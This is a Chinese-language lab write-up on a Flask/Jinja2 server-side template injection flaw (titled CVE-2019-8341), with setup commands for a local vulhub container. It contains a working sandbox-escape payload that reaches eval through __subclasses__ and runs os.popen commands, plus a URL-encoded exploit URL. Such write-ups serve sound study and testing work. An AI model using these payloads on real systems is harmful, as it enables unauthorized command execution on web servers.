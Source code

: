 # CVE-2019-8341 Flask（Jinja2） 服务端模板注入漏洞

Flask服务的模板中拼接了恶意用户输入导致各种漏洞

- 在模板环境中注册函数，可访问python中的一些内置函数及其方法；
- 可利用Python 沙盒环境逃逸绕过注册方式，进而调用python内置对象；

## 应用介绍

Flask是一个微型的Python开发的Web框架，基于Werkzeug WSGI工具箱和Jinja2 模板引擎。 
Flask使用起来非常简单，应用Extension增加其他功能：ORM、窗体验证工具、文件上传、各种开放式身份验证技术。

## 环境构建

```shell
cd ~/vulhub/flask/ssti
docker-compose up -d

# 删除容器
docker-compose down -v
```
不报错就说明启动成功，可以通过 `docker ps` 命令查看活动容器的状态。

## 漏洞相关知识

```
__bases__    #以元组返回一个类直接所继承的类
__mro__      #以元组返回继承关系链
__class__    #返回对象所属的类
__globals__  #以dict返回函数所在模块命名空间中的所有变量
__subclasses__()  #以列表返回类的子类
_builtin_  #内建函数，python中可以直接运行一些函数，例如int(),list()等等，这些函数可以在__builtins__中可以查到。

补充：在py3中__builtin__被换成了builtin
```

## 手工检测方式

访问 `http://X.X.X.X:8000/?name={{2*3}}`

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed2/20210629132531.png)


看下payload格式化后的内容：
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed2/20210629134247.png)

EXP:
```
http://127.0.0.1:5000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22calc%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```